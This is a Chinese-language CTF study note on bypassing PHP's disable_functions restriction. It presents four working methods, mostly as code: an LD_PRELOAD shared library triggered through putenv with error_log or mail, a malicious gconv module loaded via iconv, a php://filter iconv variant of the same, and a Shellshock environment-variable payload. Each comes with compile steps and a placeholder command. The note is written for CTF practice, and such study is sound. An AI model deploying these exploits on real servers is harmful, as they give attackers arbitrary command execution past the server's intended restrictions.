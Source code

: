 # 主要思路
	- 使用环境变量等方式控制php执行c库中的函数，从而绕过php自带的disable_function安全机制
- # 参考
	- https://www.lxscloud.top/2022/04/15/PHP-Bypass-disable_function/
	- [[CTF/PHP/FFI]]
- # 提示
	- 下面的方式都需要写入文件，实际操作时可以考虑使用[[CTF/PHP/利用FTP进行文件写入]]进行文件写入
- # 方式一
	- 要求
		- 允许函数putenv()和error_log()或mail()且存在可写目录和可以传输文件到靶机
	- 步骤
		- 把这个编译为`exp.so`扔进某个文件夹（例如`/tmp/`）中
			- ```c
			  #include <stdlib.h>
			  #include <stdio.h>
			  
			  int geteuid() {
			  	if(getenv("LD_PRELOAD") != NULL) { 
			  		unsetenv("LD_PRELOAD");
			  		system("ls / > /tmp/t.txt"); // payload在这
			  	} else {
			  		return 0;
			  	}
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- PHP执行
			- ```php
			  <?php 
			  putenv("LD_PRELOAD=/tmp/exp.so");
			  # exp.so在下面这行被调用
			  error_log("",1,"","");
			  # 当然我们还有
			  mb_send_mail("a@localhost","","","","");
			  # 当然我们还有
			  mail("","","","");
			  ?>
			  ```
- # 方式二
	- 注意
		- 这里复现时有一个坑，就是如果PHP执行没反应需要多执行几次（大概手搓十几次这样）
	- 要求
		- 允许函数putenv()、iconv()和可以传输文件到靶机
	- 步骤
		- 把这个编译了放进目标中（比如说放进`/tmp/exp.so`）
			- ```c
			  #include <stdio.h> 
			  #include <stdlib.h> 
			  
			  void gconv() {
			  }
			  
			  void gconv_init() {  
			  	system("ls / > /tmp/t.txt");
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- 把这个写进同一个文件夹（这里是`/tmp/`）中的`gconv-modules`中
			- ```text
			  module  exp//    INTERNAL    /tmp/exp    2
			  module  INTERNAL   exp//    /tmp/exp    2
			  ```
		- 最后执行这里的php
			- ```php
			  <?php 
			  putenv("GCONV_PATH=/tmp/"); // 当然这里是tmp文件夹
			  iconv("exp", "UTF-8", "");
			  ?>
			  ```
- # 方式三
	- 方式二的变种
	- 要求：允许putenv和使用convert.iconv这个`php://`伪协议的filter
	- 步骤：和方式二相同，只不过执行的PHP变成这个：
		- ```php
		  <?php
		  putenv("GCONV_PATH=/tmp/"); 
		  include('php://filter/read=convert.iconv.exp.utf-8/resource=/proc/self/cmdline');
		  ?>
		  ```
- # 方式四
	- > 未复现
	- 当然是shell shock
		- ```php
		  <?php
		  putenv("PHP_flag=() { :; }; ls / > /tmp/t.txt");
		  error_log("",1,"","");
		  ?>
		  
		  ```